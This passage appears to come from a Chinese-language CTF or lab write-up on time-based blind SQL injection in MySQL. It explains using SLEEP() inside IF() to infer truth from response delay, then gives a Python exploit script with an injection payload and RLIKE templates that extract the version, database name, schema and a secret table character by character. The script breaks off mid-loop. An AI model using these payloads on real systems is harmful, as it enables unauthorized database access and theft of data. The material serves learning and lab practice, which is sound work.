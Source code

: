 21
22
23
24

如果想要让布尔盲注不可用，我们可以做一个假设，假设我们并不知道账户的密码，也就无法通过登陆验证，这个时候就失去了布尔盲注最大的依赖，也就无法得知 if 表达式的真或假了。

![img](C:\Users\24993\Desktop\博客文章\static\boxcndxf4WEQQQEXspS7GwNKI6J.png)

但，真的没办法了吗？

在 MySQL 中存在一个延时函数 sleep ()，可以延时特定的秒数

如果我们将 if 语句中的返回值改成延时函数会如何呢？

当 if 语句为真时进行一个延时，当 if 语句为假时即刻返回

于是我们就可以通过查询进行的时间长短来判断语句是否为真了！

完整的 exp 如下

python

```
from mysqli_invisible_time import *
import string
import io
import sys
import signal

def handler(signum, frame):
    raise Exception("timeout")

signal.signal(signal.SIGALRM, handler)

def escape_string(c):
    return "\\" + c if c in ".+*" else c

def exp():
    payload_template = "Liki4' AND if({exp},SLEEP(1),0);#"
    space = string.ascii_letters + string.digits + ' _:,$.'

    exp_template = "@@version RLIKE '^{c}'"
    exp_template = "DATABASE() RLIKE '^{c}'"
    exp_template = "(SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) RLIKE '^{c}'"
    exp_template = "(SELECT binary GROUP_CONCAT(secret_string) FROM secret) RLIKE '^{c}'"

    print(exp_template)

    Flag = True

    data = ""

    while Flag:
        ori_stdout = sys.stdout
        for c in space:
            payload = payload_template.format(exp=exp_template.format(c=data+c))
            sys.stdin = io.StringIO(payload + '\n555_i_dont_know_password')
            res = sys.stdout = io.StringIO()

            signal.alarm(1)
            try:
                main()
                print("timeout")
            except:
                print("bingooo")
            
```